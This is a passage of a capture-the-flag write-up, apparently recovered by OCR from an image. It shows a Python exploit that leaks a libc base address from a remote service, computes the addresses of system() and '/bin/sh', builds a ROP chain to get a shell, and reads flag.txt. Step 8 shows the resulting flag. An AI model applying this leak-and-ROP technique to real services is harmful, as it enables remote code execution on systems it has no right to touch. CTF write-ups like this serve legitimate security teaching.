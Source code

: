 ```python
offset_system = 0x045220
offset_str_bin_sh = 0x18d42d

h = remote(host, port, timeout = None)

msg = h.recvuntil('Enter choice: ')
print msg

# Use infoleak
libc_base = do_infoleak(h, offset_libc_start_main)
system_addr = (libc_base + offset_system)
binsh_addr = (libc_base + offset_str_bin_sh)

print "[ Leaked libc base address: [0x%x] ]" % libc_base
print "[ '/bin/sh' address: [0x%x] ]" % binsh_addr
print "[ system() address: [0x%x] ]" % system_addr

# Build ROP chain
ropchain_addr = set_ropchain(h, system_addr, binsh_addr)

print "[ Leaked ROP chain address: [0x%x] ]" % ropchain_addr

do_exploit(h, ropchain_addr)

h.close()
```

8. Now we get the shell, and we can run `cat flag.txt`
```bash
$ cat flag.txt
p_ctf{m7_3n3m1e5_ar3_n0_m4tch_f0r_m3!}
```
which provides us with the flag.